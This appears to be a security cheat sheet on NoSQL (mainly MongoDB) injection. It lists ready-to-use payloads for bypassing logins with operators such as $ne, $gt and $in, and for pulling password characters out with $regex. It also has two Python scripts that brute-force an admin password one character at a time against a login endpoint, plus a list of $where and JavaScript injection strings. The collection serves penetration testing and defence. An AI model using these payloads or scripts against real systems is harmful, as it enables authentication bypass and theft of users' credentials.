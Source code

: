 # NoSQL injection

NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Exploit

Basic authentication bypass using not equal ($ne) or greater ($gt)

```json
in URL
username[$ne]=toto&password[$ne]=toto

in JSON
{"username": {"$ne": null}, "password": {"$ne": null}}
{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}
{"username": {"$gt": undefined}, "password": {"$gt": undefined}}
{"username": {"$gt":""}, "password": {"$gt":""}}
```

Extract length information

```json
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

Extract data information

```json
in URL
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*

in JSON
{"username": {"$eq": "admin"}, "password": {"$regex": "^m" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^md" }}
{"username": {"$eq": "admin"}, "password": {"$regex": "^mdp" }}
```

Extract data with "in"

```json
{"username":{"$in":["Admin", "4dm1n", "admin", "root", "administrator"]},"password":{"$gt":""}}
```


## Blind NoSQL

### POST with JSON body


```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username="admin"
password=""
u="http://example.org/login"

while True:
    for c in string.printable:
        if c not in ['*','+','.','?','|']:
            payload='{"username": {"$eq": "%s"}, "password": {"$regex": "^%s" }}' % (username, password + c)
            r = requests.post(u, data = {'ids': payload}, verify = False)
            if 'OK' in r.text:
                print("Found one more char : %s" % (password+c))
                password += c
```

### GET

```python
import requests
import urllib3
import string
import urllib
urllib3.disable_warnings()

username='admin'
password=''
u='http://example.org/login'

while True:
  for c in string.printable:
    if c not in ['*','+','.','?','|', '#', '&', '$']:
      payload='?username=%s&password[$regex]=^%s' % (username, password + c)
      r = requests.get(u + payload)
      if 'Yeah' in r.text:
        print("Found one more char : %s" % (password+c))
        password += c
```

## MongoDB Payloads

```bash
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```

## References

* [Les NOSQL injections Classique et Blind: Never trust user input - Geluchat](https://www.dailysecurity.fr/nosql-injections-classique-blind/)
* [Testing for NoSQL injection - OWASP](https://www.owasp.org/index.php/Testing_for_NoSQL_injection)
* [cr0hn - NoSQL injection wordlists](https://github.com/cr0hn/nosqlinjection_wordlists)
* [Zanon - NoSQL Injection in MongoDB](https://zanon.io/posts/nosql-injection-in-mongodb)
